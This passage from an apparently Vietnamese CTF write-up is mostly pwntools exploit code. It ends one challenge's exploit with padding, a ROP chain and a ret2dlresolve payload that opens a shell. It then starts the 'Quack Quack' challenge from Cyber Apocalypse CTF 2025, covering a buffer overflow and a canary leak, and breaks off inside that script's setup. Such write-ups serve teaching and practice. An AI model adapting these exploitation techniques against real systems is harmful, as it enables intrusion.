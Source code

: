     pl = flat(
        b'a'*72,
        raw_rop,

    )

    p.send(pl)

    p.send(dlresolve.payload)






    p.interactive()


## Cyber Apocalypse CTF 2025

### Quack Quack
Source 
![image](https://hackmd.io/_uploads/SkfXvj1pyx.png)
Lỗi buffer overfouw ngay hàm read. 
![image](https://hackmd.io/_uploads/HkjMdjJakg.png)
Check strstr nó lỗi check liên tục nêu là Quack Quack nên ta có thể leak được canary

    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *
    from ctypes import cdll



    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./quack_quack_patched', checksec=False)
    #libc = ELF('./libc-2.23.so', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc


    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* 0x0000000000401578
